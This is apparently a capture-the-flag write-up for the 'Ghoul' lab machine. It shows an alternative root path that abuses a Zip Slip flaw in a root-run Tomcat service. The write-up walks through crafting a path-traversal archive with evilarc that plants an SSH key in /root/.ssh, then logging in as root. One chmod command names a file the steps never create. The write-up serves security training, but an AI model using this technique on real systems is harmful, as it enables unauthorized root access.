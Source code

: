 # Alternative way to exploit Ghoul

## Privilege Escalation on the Container

This way is possible after getting access to the first container _(172.20.0.10)_ as _www-data_.

When checking the listening ports on the container, it shows that port 8080 listens on localhost:
```
netstat -alnp | grep LISTEN

tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
```

The service on port 8080 is **Tomcat** and runs as root:
```
ps -ef | grep tomcat

root    13    1    0    16:17    ?        00:00:27 /usr/bin/java -Djava.util.logging.config.file
(...)
```

This means that by exploiting the **Zip Slip vulnerability**, we are able to upload an SSH key on the container owned by root to login as root.

Creating SSH key on local client:
```
ssh-keygen -f ghoul_container_root

mv ghoul_container_root.pub authorized_keys

chmod 600 ghoul_unintended-way
```

Compressing the public key with **evilarc**:
```
python /opt/evilarc/evilarc.py -o unix -d 2 -p /root/.ssh/ authorized_keys
```

After uploading the ZIP file from the web page on port 8080, the SSH key gets uploaded in the root directory and it is possible to login as root to the container:
```
ssh -i ghoul_container_root 10.10.10.101
```
```
root@Aogiri:~# id
uid=0(root) gid=0(root) groups=0(root)
```
